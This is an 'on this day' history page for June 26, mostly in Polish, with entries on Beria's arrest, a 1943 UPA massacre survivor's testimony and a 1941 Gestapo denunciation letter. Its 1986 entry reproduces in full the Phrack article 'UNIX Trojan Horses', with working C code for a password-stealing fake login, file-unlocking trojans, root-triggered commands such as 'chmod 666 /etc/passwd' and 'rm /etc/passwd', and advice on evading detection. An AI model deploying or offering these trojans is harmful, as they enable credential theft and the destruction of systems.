


### 2023

<br><br>

---

<br><br>

---

> One of the biggest banks in Australia, Westpac, restricts customers to $667 cash withdrawal limit.

<br><br>

<video width="640" height="480" controls>
<source src="./movies/june/climate_change.mp4" type="video/mp4">
Your browser does not support the video tag.
</video>

<br><br>

---

### 2022

Wall Street gets a short - Bitcoin fund after 70% crypto collapse - BNN Bloomberg

<br><br>

<br><br>

### 2020 - 白左

<br><br>

### 1986

```
                               ==Phrack Inc.==

                    Volume One, Issue 7, Phile 7 of 10

------------------
UNIX Trojan Horses
------------------

By Shooting Shark of Tiburon Systems / R0DENTZWARE - 6/26/86

Introduction
------------

     "UNIX Security" is an oxymoron.  It's an easy system to brute-
force hack (most UNIX systems don't hang up after x number of login
tries, and there are a number of default logins, such as root, bin,
sys and uucp).  Once you're in the system, you can easily bring
it to its knees (see my previous Phrack article, "UNIX Nasty Tricks")
or, if you know a little 'C', you can make the system work for you
and totally eliminate the security barriers to creating your own
logins, reading anybody's files, etcetera.  This file will outline
such ways by presenting 'C' code that you can implement yourself.

Requirements
------------
     You'll need a working account on a UNIX system.  It should be
a fairly robust version of UNIX (such as 4.2bsd or AT&T System V)
running on a real machine (a PDP/11, VAX, Pyramid, etc.) for the
best results.  If you go to school and have an account on the school
system, that will do perfectly.

Notes
-----
     This file was inspired an article in the April, '86 issue of
BYTE entitled "Making UNIX Secure."  In the article, the authors say
"We provide this information in a way that, we hope, is interesting and
useful yet stops short of being a 'cookbook for crackers.'  We have
often intentionally omitted details."  I am following the general
outline of the article, giving explicit examples of the methods they touched
on.

     An unrelated note:  Somewhere there's a dude running around using
the handle "Lord British" (not THE Lord British...).  This is a message
for LB:  "Fuck off and die."

Here we go...

Project One:  Fishing For Passwords
-----------------------------------

     You can implement this with only a minimal knowledge of UNIX and
C.  However, you need access to a terminal that many people use -
the computer lab at your school, for example.

     When you log onto a typical UNIX system, you see something like this:

Tiburon Systems 4.2bsd / System V (shark)


login: shark
Password:      (not printed)

     The program I'm giving you here simulates a logon sequence.  You
run the program from a terminal and then leave.  Some unknowing fool
will walk up and enter their login and password.  It is written to a
file of yours, then "login incorrect" is printed, then the fool is
asked to log in again.  The second time it's the real login program.
This time the person succeeds and they are none the wiser.

     On the system, put the following code into a file called 'horse.c'.
You will need to modify the first 8 lines to fit your system's appearance.


----- Code Begins Here -----

/* this is what a 'C' comment looks like.  You can leave them out. */

/* define's are like macros you can use for configuration. */

define SYSTEM "\n\nTiburon Systems 4.2bsd UNIX (shark)\n\n"

/* The above string should be made to look like the message that your
 * system prints when ready.  Each \n represents a carriage return.
 */

define LOGIN  "login: "

/* The above is the login prompt.  You shouldn't have to change it
 * unless you're running some strange version of UNIX.
 */

define PASSWORD "password:"

/* The above is the password prompt.  You shouldn't have to change
 * it, either.
 */

define WAIT 2

/* The numerical value assigned to WAIT is the delay you get after
 * "password:" and before "login incorrect."  Change it (0 = almost
 * no delay, 5 = LONG delay) so it looks like your system's delay.
 * realism is the key here - we don't want our target to become
 * suspicious.
 */


define INCORRECT "Login incorrect.\n"

/* Change the above so it is what your system says when an incorrect
 * login is given.  You shouldn't have to change it.
 */

define FILENAME "stuff"

/* FILENAME is the name of the file that the hacked passwords will
 * be put into automatically.  'stuff' is a perfectly good name.
 */

/* Don't change the rest of the program unless there is a need to
 * and you know 'C'.
 */

include <curses.h>
include <signal.h>
int stop();

main()
{
char name[10], password[10];
int i;
FILE *fp, *fopen();
signal(SIGINT,stop);
initscr();
printf(SYSTEM);
printf(LOGIN);
scanf("%[^\n]",name);
getchar();
noecho();
printf(PASSWORD);
scanf("%[^\n]",password);
printf("\n");
getchar();
echo();
sleep(WAIT);


if ( ( fp = fopen(FILENAME,"a") )  != NULL ) {
fprintf(fp,"login %s has password %s\n",name,password);
fclose(fp);
}

printf(INCORRECT);
endwin();
}

stop()
{
endwin();
exit(0);
}


----- Source Ends Here -----

     OK, as I said, enter the above and configure it so it looks exactly
like your system's login sequence.  To compile this program called
'horse.c' type the following two lines: (don't type the %'s, they are
just a sample prompt)

% cc horse.c -lcurses -ltermcap
% mv a.out horse

You now have the working object code in a file called 'horse'.  Run it,
and if it doesn't look like your systems logon sequence, re-edit horse.c
and re-compile it.  When you're ready to put the program into use, create
a new file and call it 'trap' or something.  'trap' should have these two
commands:

horse                    (this runs your program)
login                    (this runs the real login program)

to execute 'trap' type:

% source trap            (again, don't type the %)

and walk away from your terminal...

After you've run it successfully a few times, check your file called
'stuff' (or whatever you decided to call it).  It will look like this:

user john has password secret
user mary has password smegma
etc.

Copy down these passwords, then delete this file (it can be VERY
incriminating if the superuser sees it).

Note - for best results your terminal should be set to time-out after
a few minutes of non-use - that way, your horse program doesn't
run idle for 14 hours if nobody uses the terminal you ran it on.

-----

The next projects can be run on a remote system, such as the VAX in
Michigan you've hacked into, or Dartmouth's UNIX system, or whatever.
However, they require a little knowledge of the 'C' language.  They're
not something for UNIX novices.

Project Two:  Reading Anybody's Files
-------------------------------------

When somebody runs a program, they're the owner of the process created
and that program can do anything they would do, such as delete a file
in their directory or making a file of theirs available for reading
by anybody.

When people save old mail they get on a UNIX system, it's put into
a file called mbox in their home directory.  This file can be fun
to read but is usually impossible for anybody but the file's owner
to read.  Here is a short program that will unlock (i.e. chmod 777,
or let anybody on the system read, write or execute) the mbox file
of the person who runs the program:

----- Code Begins Here -----

include <pwd.h>

struct passwd *getpwnam(name);
struct passwd *p;
char buf[255];

main()
{
p = getpwnam(getlogin());
sprintf(buf,"%s/%s",p->pw_dir,"mbox");
if ( access(buf,0) > -1 ) {
        sprintf(buf,"chmod 777 %s/%s",p->pw_dir,"mbox");
        system(buf);
        }
}

----- Code Ends Here -----

So the question is:  How do I get my target to run this program that's
in my directory?

If the system you're on has a public-messages type of thing (on
4.xbsd, type 'msgs') you can advertise your program there.  Put the
above code in another program - find a utility or game program in
some magazine like UNIX WORLD and modify it and do the above before
it does it's real thing.  So if you have a program called tic-tac-toe
and you've modified it to unlock the mbox file of the user before it
plays tic-tac-toe with him, advertise "I have a new tic-tac-toe program
running that you should all try.  It's in my directory." or whatever.
If you don't have means of telling everybody on the system via a public
message, then just send mail to the specific people you want to trap.

If you can't find a real program to modify, just take the above program
and add this line between the two '}' lines at the end of the program:

printf("Error opening tic-tac-toe data file.  Sorry!\n");

when the program runs, it will print the above error message.  The user
will think "Heh, that dude doesn't know how to write a simple tic-tac-
toe program!" but the joke's on him - you can now read his mail.

If there's a specific file in a user's directory that you'd like to
read (say it's called "secret") just throw together this general
program:


main()
{
if ( access("secret",0) > -1 ) system("chmod 777 secret");
}

then 'talk' or 'write' to him and act like Joe Loser: "I wrote this program
called super_star_wars, will you try it out?"

You can use your imagination.  Think of a command you'd like somebody
to execute.  Then put it inside a system() call in a C program and
trick them into running your program!

Here's a very neat way of using the above technique:

Project Three: Become the superuser
-----------------------------------

Write a program that you can get people to run.  Put this line in
it somewhere:

if ( !strcmp(getlogin(),"root") ) system("whatever you want");

This checks to see if the root login is running your program.  If
he is, you can have him execute any shell command you'd like.
Here are some suggestions:

"chmod 666 /etc/passwd"

     /etc/passwd is the system's password file.  The root owns this
file.  Normally, everyone can read it (the passwords are encrypted)
but only the root can write to it.  Take a look at it and see how it's
formatted if you don't know already.  This command makes it possible
for you to now write to the file - i.e. create unlimited accounts for
yourself and your friends.

"chmod 666 /etc/group"

     By adding yourself to some high-access groups, you can open many
doors.

"chmod 666 /usr/lib/uucp/L.sys"

     Look for this file on your system if it is on the uucp net.  It
contains dialups and passwords to other systems on the net, and normally
only the uucp administrator can read it.  Find out who owns this file
and get him to unknowingly execute a program to unlock it for you.

"rm /etc/passwd"

     If you can get the root to execute this command, the system's
passwd file will be removed and the system will go down and will
not come up for some time to come.  This is very destructive.

-----

If you are going to go about adding a trojan horse program to the
system, there are some rules you should follow.  If the hidden purpose
is something major (such as unlocking the user's mbox or deleting all
of his files or something) this program shouldn't be a program that
people will be running a lot (such as a popular computer game) - once
people discover that their files are public access the source of the
problem will be discovered quite easily.  Save this purpose for a 'test'
program (such as a game you're in the process of writing) that you
ask individual people to run via mail or 'chatting' with them.  As I
said, this 'test' program can bomb or print a phony error message after
completing its task, and you will just tell the person "well, I guess
it needs more work", wait until they log off, and then read whatever
file of theirs that you've unlocked.  If your trojan horse program's
sole purpose is to catch a specific user running it - such as the
root or other high-powered user - you can put the code to do so
in a program that will be run a lot by various users of the system.
Your modification will remain dormant until he runs it.
If you can't find the source to 'star trek' or whatever in C, just
learn C and convert something from pascal.  It can't hurt to learn
C as it's a great language.  We've just seen what it can do on a
UNIX system.  Once you've caught the root (i.e. you can now modify
the /etc/passwd file) remove the spurious code from your trojan horse
program and you'll never be caught.

That's it...if you have any questions or comments or you just want
to bitch at me, call this system:

The Matrix
415/922-2008
101 megs, IBM warezzz, 2400 baud, Phrack sub-board, etc.

Lord British, I *dare* you to call.

(>
=========================================================================
```

### 1953

https://en.wikipedia.org/wiki/Lavrentiy_Beria

---

W historii naszego kraju jest wiele postaci, które nie będąc Polakami odcisnęły piętno na losach naszego narodu.
26 czerwca 1953 roku został aresztowany szef OGPU,Ludowy Komisarz Spraw Wewnętrznych i bliski współpracownik zmarłego 3 miesiące wcześniej Stalina Ławrentij Beria. Padł on ofiarą spisku inspirowanego przez Nikitę Chruszczowa,Wiaczesława Mołotowa i Gieorgija Malenkowa.Berię uznano za agenta służb zachodnich,a pretekstem do tego miała być jego wizyta w NRD w trakcie rozgrywających się tam rozruchów.
Aresztowanie Berii wykonane na wniosek Chruszczowa miało miejsce podczas posiedzenia biura politycznego KC KPZR.
Jedna z takich hipotez głosi, że Beria był
inicjatorem i przywódcą udanego spisku na
życie Stalina. W skład spiskowców
wchodzić mieli jeszcze: Nikita Chruszczow ,
Malenkow i Bułganin. Stalina miano
zamordować za pomocą trucizny podanej w
zastrzyku przez jedną z lekarek. Choć
oficjalną przyczyną śmierci zbrodniczego
dyktatora Rosji Sowieckiej miał być wylew
krwi do mózgu, wiadomo, że przed śmiercią
wymiotował on krwią, co potwierdza
hipotezę mówiącą o celowym uśmierceniu
za pomocą trucizny.
Ławrentij Beria został stracony 23 grudnia 1953 roku.
Prowadzony na śmierć Ławrientij Beria
miał podobno błagać o litość i krzyczeć:
- Babę, babę mi dajcie! Ostatni raz!
Przypomnijmy- Beria jako jeden z najbliższych współpracowników Stalina był odpowiedzialny za śmierć setek tysięcy nie tylko polskich wrogów ZSRR.

<br><br>

---

### 1943

26 lub 29 czerwca UPA dokonała pogromu wsi Kolonia Górna w gminie Ludwipol w w województwie wołyńskim.
Wspomina 14 letnia wówczas Regina Falkowska:
" Kiedy usłyszałam strzały i przerażające krzyki ludzi, nie wiedziałam, gdzie mam iść i co robić, przez chwilę stanęłam i patrzyłam, co się działo. Wszystkie podwórka były gęsto zapełnione banderowcami :bili, rąbali siekierami, nożami, mordowali w okrutny sposób. Szli gęstym pasem, żywej duszy po sobie nic zostawiali, wszystko palili. Naraz usłyszałam głos mego stryjka, który wołał swego syna, żeby uciekał za nim, ale ten syn już nie zdążył uciec. Wtedy ja szybko podbiegłam do stryjka [Jana Wojdata], a było to w polu i wtedy ze stryjkiem uciekaliśmy przez pola, żeby gdzieś się można było skryć. Ale już nie było takiego miejsca, gdzie można się było skryć. Oni byli wszędzie. Poszliśmy do rzeki, była to rzeka Słucz, dość głęboka. Chcieliśmy przejść na drugą stronę rzeki, kiedy wyszliśmy na pół rzeki, a woda się-gała mi do brody, wtedy padł strzał z drugiej strony rzeki , widziałam jak zza krzaka [banderowiec] kierował do nas karabin. Naraz strzelił, ale strzał nie był trafny, kula chlupnę ta obok nas. Wyszliśmy z tej rzeki, udaliśmy się w kierunku skał i głębokich jarów, uważaliśmy, że ich tam nie ma. Kiedy wchodziliśmy do takiego jaru, naraz widzimy, może około 15 metrów przed nami, staje banderowiec, lufa karabinu skierowana do nas. I to już był dla nas koniec, nie było czasu do namysłu. Ja w tym momencie skręciłam w bok, zrobiłam takie jakby półkole, weszłam między kamienie, skuliłam się, oczy zamknęłam, żeby nie widzieć tego, co będzie w pierwszej chwili robić ze mną, żeby nie widzieć noża albo siekiery. W tym momencie strzelił do stryjka, naraz stryjek upadł, jeszcze chwilę jęczał i po chwili skonał, było to tuż koło mnie. Wszystko słyszałam, ale oczy nadal miałam zamknięte, naraz słyszę, że chodzi wkoło mnie, a byt to już zmrok, a z tamtej strony rzeki banderowiec widział, gdzie ja weszłam i woła na tego, który mnie szuka, i kieruje go gdzie ma iść, i [ten] tak nadal chodzi wkoło mnie. Słyszę wyraźnie jego chodzenie. I do dziś wierzę tylko w to, że to było przeznaczenie, że to była mocna ręka, że mu oczy zasłoniła, bo przecież chodził wkoło mnie i szukał. Ja w tej skale przesiedziałam całą noc, bo oni tam byli całą noc, i następny dzień, i ja nie mogłam wyjść z tej kryjówki. A następnego dnia, gdzieś koło południa, wyskoczyłam z tej skaty i przybiegłam do swego domu, i co zobaczyłam: dom spalony i wszystkie budynki. I nie spotkałam ani jednej żywej osoby, tylko pomordowani leżeli jak snopy po polu. I stanęłam przerażona pod gołym niebem bez rodziny, bez dachu nad głową. Wtedy ogarnął mnie jeszcze bardziej przeraźliwy strach. Nie wiedziałam, co mam z sobą zrobić, i pobiegłam w pole między zboża, i w tym polu siedziałam do wieczora. Szukałam swojej rodziny i nigdzie nie znalazłam. Tylko spotkałam sąsiada i sąsiadkę, i przyłączyłam się do nich. W nocy wyszliśmy, [aby] iść w kierunku Starej Huty [gm. Ludwipol]. Szliśmy przez las całą noc, następnego dnia, a właściwie to już trzeciego dnia [od napadu], byliśmy w Starej Hucie. W tym czasie w Starej Hucie stacjonował oddział samoobrony. Kiedy doszliśmy, partyzanci mieli już przygotowane wozy, kazali siadać i jechać z nimi na Górną kolonię i odnaleźć [kogoś], może jeszcze ktoś żyje i pochować pomordowanych. Niełatwe to było zadanie, bo było zaledwie kilkunastu żołnierzy, a w każdej chwili można się było spodziewać lawiny banderowców. Nic udało nam się pochować wszystkich w jednej mogile, tylko część została złożona do jednego dołka, a reszta [tam], gdzie kto leżał zabity, tam go przygrzebali piaskiem i tak to pozostało do dziś, i do dziś te kości leżą porozrzucane po polu. Okropny szok przeżyłam, kiedy odnalazłam swoją rodzinę pomordowaną. Przerażający to był widok dla mnie, kiedy zobaczyłam, jak moi Rodzice, Siostra i Brat leżą pomordowani, a Siostra żywcem spalona w stodole. Nie mogłam się z tym pogodzić, za co ich zamordowano. To się nie da opisać, jak ja przeżywałam. To było straszne. Rodzice w tym czasie, kiedy nastąpiło morderstwo, schowali się do piwnicy, ale kiedy zaczęło się palić mieszkanie, oni wyszli z piwnicy i uciekali do lasu, ale nie zdążyli się skryć, zostali pomordowani. Opowiadał mi o Rodzicach naoczny świadek Wilczyński Jan, który byt razem z moimi Rodzicami i on ocalał. A ja zostałam sierotą (w wieku lat 14), bez Rodziców i Rodzeństwa, bez dachu nad głową, i bez jakichkolwiek środków do życia. I nadal tak pozostałam w Starej Hucie. Chodziłam jak obłąkana, chociaż ludzie dali mi co mieli do zjedzenia, ale ubrać się nie miałam w co, bo wszystko zostało spalone. Po kilku dniach mego pobytu w Starej Hucie zjawił się oddział partyzancki, którym dowodził Władysław Kochański, ps. Bomba który stacjonował w Starej Hucie. Spotykałam kilka razy wielu znajomych, którzy byli w tej partyzantce i proponowali mi, żebym wstąpiła do tej partyzantki. Co miałam robić i gdzie iść, zgodziłam na to. Przyjęto mnie do plutonu gospodarczego, w którym dowódcą był Pawełczak Franciszek. Ja w tym plutonie naprawiałam odzież i pomagałam w kuchni. W czasie większych walk opiekowałam się rannymi. Ja w tym oddziale "Bomba" byłam od lipca 1943 r. do grudnia 1943 r. W grudniu 1943 r. podczas przenoszenia mojego plutonu w inną miejscowość, musiałam pozostać w Starej Hucie, ponieważ zachorowałam na tyfus. Długo i ciężko chorowałam, bo nie było lekarstw, nie było lekarzy, ani jeść nie było co, nie było żadnych środków do prania, panował świerzb i wszawica. Niełatwe to było życie do końca wojny. Walki trwały nadal. Byliśmy bardzo często atakowani przez Niemców, a najczęściej przez bandy UPA, bez żywności i leków zmożeni ciężkimi chorobami. W tym też czasie odnalazł mnie mój Wujek, z którym przyjechałam na Ziemie Odzyskane."
Poniżej wspomnienia innego świadka:
" Między Polakami i Ukraińcami w kolonii Górnej ( gmina Ludwipol, powiat Kostopol ) nie było nieporozumień, tym bardziej zatargów [...]. Ukraińcy jako prawosławni chodzili do cerkwi w pobliskim Hubkowie, natomiast Polacy do kościoła w Ludwipolu, oddalonego o około siedem kilometrów. Idąc do Ludwipola, przechodziliśmy przez czysto ukraiński Hubkow, ale nigdy nie spotkaliśmy się tam z oznakami wrogości czy zaczepkami. [...] Było już słychać o mordowaniu polskich wiosek na północny zachód od Ludwipola. Obawialiśmy się ataku i na noc kryliśmy się po polach."

<br><br>

### 1942

Gdyni został nadany herb. Była to druga próba nadania symbolu miastu, którego niemiecka nazwa brzmiała Gotenhafen. Symbolem miasta została praca autorstwa Otto von Schicka przedstawiająca biały statek Gotów na błękitnym tle z zawieszonymi na burcie tarczami ze swastykami.
Jeden z projektów przedstawiający czarnego orła stojącego na kotwicy oraz swastykę w srebrnym kole został odrzucony przez samego Adolfa Hitlera.

<br><br>

### 1941

TEKST ŹRÓDŁOWY
Donos napisany przez Polaka do gestapo w Warszawie (zachowano interpunkcję, ortografię i stylistykę oryginału)
Do Zarządu policji Niemieckiej Gestapo Warszawa ul. Al. Szucha 25 Święta prawda Boję się podpisywać bo policja polska jak się dowiedziała to mnie zamordowałab sama
Wielce Szanowni Panowie, W dniu 26 czerwca 1941 roku będąc na ulicy Ceglanej stając w domu przy tejże samej ulicy pod N 6 i 4 zauważyłem jak polscy policjanci pilnują żydowskiego Gietta które znajduje się na tej że ulicy. Nie dość że całe grupy ludzi podają Żydom rozmaite paczki tubołki mleko w butelkach, bochenki chleba, a anwet dostarczają większy szmugiel workami. Podjechał wózek rowerowy na którym było 6 worków kaszy czy mąki, przy tym wózku było 4 mężczyzn podjechali do parkanu od strony gdzie znajduje się dom firmy Ulrycha, Żydzi zaraz podstawili stół a ci panowie którzy przywieźli te 6 worków podali Żydom przez parkan i spokojnie sobie z powrotem pojechali do ul. Żelaznej Za kilka minut przyjechał drugi wuzek na którym było 5 worków towaru i tą samą drogą poszedł do Żydów przez parkan, nie dość idzie wielki szmugiel, który jest dostarczany przez polaków, to co chwila przechodzą przez parkan rozmaite podejrzane osobistości. A ci panowie którzy wózkami dostarczają Żydom rozmaitej żywności, stale sobie siedzą w podejrzanej kawiarence na ul. Żelaznej N 55 piją sobie wódkę z polskiemi policjantami. Zwróciłem się do jednego z policjantów i powiedziałem, że 3ch policjantów pilnuje, żeby nie szedł szmugiel a wy zamiast łapać szmuklerów to jeszcze ułatwiacie im. Zapamiętał numer tego policjanta 322. Proszę o sprawdzenie z jakiego komisarjatu byli dyżurni dnia 26/41 pomiędzy godziną 8/9 rano. Polska policja nigdzie nie robi nic tylko darmo pobiera pieniądze. Tych panów warto było dawno wysłać do Westfalii kopać węgiel to nie anonim a święta prawda jest.

<br><br>

### 1940

W Londynie odbyło się pierwsze posiedzenie rządu polskiego na emigracji.
Uczestniczyli w nim: Sikorski, Sosnkowski,
Zaleski, Strasburger, Stroński, Stańczyk i w
zastępstwie Hallera podsekretarz Karol
Popiel. Sikorski zaczął od zreferowania
swoich rozmów z Churchillem, a następnie
zapowiedział redukcję aparatu rządowego.
Według wstępnego projektu miałyby
pozostać jedynie: Prezydium Rady
Ministrów, MSZ, Ministerstwo Skarbu oraz
Informacji i Dokumentacji. Przeciwko
projektowi wystąpił Jan Stańczyk szef
przewidywanego do likwidacji Ministerstwa
Opieki Społecznej.
Obrady zaczęły się od przemówienia premiera Sikorskiego, który powiedział:
"Nie rozwałkowywać zbytnio spraw
związanych z ostatnią przeszłością, których
ocenę zostawić należy lepszej chwili. Sam
gotów jest wiele puścić w niepamięć, pod
warunkiem jednak, że wszyscy sami z sobą
zrobią właściwy rachunek sumienia".
Dwa dni później Rada Ministrów powróciła
do sprawy reorganizacji rządu. Tym razem
rozwinięty projekt przedstawił Sosnkowski,
zapowiadając zniesienie Ministerstwa Spraw
Wojskowych (jego agendy miał przejąć sztab
naczelnego wodza), Ministerstwa
Sprawiedliwości i Ministerstwa Opieki
Społecznej, których zakres działania miały
przejąć stosowne referaty w Prezydium
Rady Ministrów.

<br><br>

### 1579

Król Polski Stefan Batory wypowiedział wojnę Moskwie.
Przyczyną tej decyzji były imperialne plany tego kraju, który chciał zagarnąć Inflanty.
Wypowiedzenie to było w zasadzie tylko formalnością, ponieważ wojska rosyjskie cara Iwana IV Groźnego już od blisko czterech lat wcześniej okupowały wspomniane tereny, dopuszczając się tam licznych zbrodni i gwałtów.
Na ten stan rzeczy nie mógł spokojnie patrzeć polski władca, który, by rozbudować i unowocześnić armię zdecydował się na podniesienie podatków, co w krótkim czasie poskutkowało stworzeniem blisko 60 tysięcznego wojska, które miało stawić czoła Rosjanom.
Wojna o Inflanty rozpoczęła się oblężeniem przez armię Batorego, Połocka 11 sierpnia 1579 roku, który padł po 18 dniach.
Rok 1580 był dla Polaków pasmem kolejnych militarnych sukcesów, ponieważ to wtedy udało im się pokonać kilka razy wojska rosyjskie. Jednym ze spektakularnych polskich zwycięstw było to odniesione pod Toropcem, kiedy to wojsko polskie pod dowództwem księcia Janusza Zbaraskiego rozbiło dwukrotnie silniejszą kawalerię rosyjską.
Trzecia faza tej wojny czyli lata 1581-82 to działania w rejonie Pskowa, gdzie w dorzeczu górnej Wołgi walczyły wojska hetmana Krzysztofa Radziwiłła, którym omal nie udało się schwytać samego cara. Oblężenie miasta trwało 5 miesięcy i niestety nie zakończyło się polskim sukcesem. Nie było to jednak przeszkodą w odniesieniu przez Polaków błykotliwego zwycięstwa w tej wojnie, która zakończyła się odzyskaniem przez Polskę Inflant i podpisaniem 10 letniego rozejmu.

<br><br>

---

<a href="https://github.com/TomaszWaszczyk/historia.waszczyk.com/edit/master/src/content/june-26.md" target="_blank">Edytuj tę stronę dzieląc się własnymi notatkami!</a>
